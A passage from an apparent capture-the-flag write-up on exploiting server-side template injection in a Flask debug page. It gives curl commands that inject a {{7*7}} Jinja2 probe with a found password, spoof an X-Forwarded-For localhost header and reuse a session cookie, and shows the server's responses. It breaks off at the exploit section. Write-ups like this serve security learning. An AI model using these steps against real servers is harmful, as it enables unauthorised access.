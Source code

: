 **Payload:**
```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSKkktLlHSUSpILC4uzy9KAYokqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgBkyRqO.aMLE0w.94wUAt4ME8clyOUcGZj5vfblXsU'
```

The web app is running Flask and passes user input directly into render_template_string without proper sanitization. This function takes a string and evaluates it as a Jinja2 template. This means anything inside {{ … }} is executed by the server. Testing with {{ 7*7 }} returned 49, confirming that **Server-Side Template Injection (SSTI)** works.

First, retrieve a vaild session cookie.
```
$ curl 'http://<target ip>:7777/debug?debug=\{\{7*7\}\}&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 12:56:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.aMLG-A.u9-65vYwbdk5vAvpJErjvQuz7MQ; HttpOnly; Path=/
Connection: close
```
Next, cpoy the session cookie and paste into the payload.
```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.aMLG-A.u9-65vYwbdk5vAvpJErjvQuz7MQ'
<body>

    <div class="main">
        <h1 class="title">Debugging Results</h1>
<pre>
<code>

┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">49</span>

</code>
</pre>

</body>
</html>
```
It gives 49(7*7) so the web app seems like it is susceptible to SSTI. 

## Exploit

The point is the template prevents directly importing os (or other modules). To execute system commands, it is necessary to find an indirect way to reach the os module.
    